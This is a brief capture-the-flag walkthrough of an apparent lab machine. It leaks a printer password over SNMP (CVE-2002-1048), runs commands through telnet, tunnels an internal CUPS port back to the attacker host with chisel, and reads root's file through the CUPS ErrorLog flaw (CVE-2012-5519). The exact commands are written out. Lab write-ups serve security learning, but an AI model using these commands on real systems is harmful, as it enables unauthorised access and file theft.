 Started with a nmap scan
```
23 telnet HP Jetdirect
161 snmp udp only
```
Since all we have is telnet open on tcp and if we do a udp scan there is a open SNMP port open doing some googling and there is a really old exploit for this `CVE-2002-1048` and if we send this command it will send us hex back `snmpwalk -v2c -c public 10.10.11.107 .1.3.6.1.4.11.2.3.9.1.1.13.0` and we get some hex back and can use cyberchef to decode the hex to `P@ssw0rd@123!!123` now we can access the telnet service and login we can use `exec` to exacute system commands and get the flag now we need to see what ports are open internally there is cups running on the host on port `631` running version `1.6.1` and there is a cve for a local file read `CVE-2012-5519` now we need to get a reverse shell and then use chisel to open the port so we can use the exploit getting chisel on the host and run this command `./chisel client 10.10.14.3:8000 R:631:127.0.0.1:631` and on are host `./chisel server server -p 8000 --reverse` and now if we go to `127.0.0.1:631` in are browser we can see the cups instance now we can use the exploit to view the error logs so if we telnet agin and run `exec cupsctl ErrorLog="/root/root.txt"` and then curl the file path on are host we get the root flag 